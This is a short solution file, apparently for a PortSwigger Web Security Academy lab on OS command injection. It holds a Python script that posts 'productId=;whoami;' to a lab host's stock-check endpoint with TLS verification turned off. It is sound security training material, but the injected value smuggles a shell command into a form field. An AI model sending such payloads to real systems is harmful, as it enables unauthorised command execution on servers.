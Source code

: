 # Lab: OS command injection, simple case

link to lab: https://portswigger.net/web-security/os-command-injection/lab-simple

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

data = 'productId=;whoami;&storeId=echo 1'

response = requests.post(
    'https://0a02004304ead3b0c00e6301000100a4.web-security-academy.net/product/stock',
    data=data,
    verify=False,
)

print(response.text)
```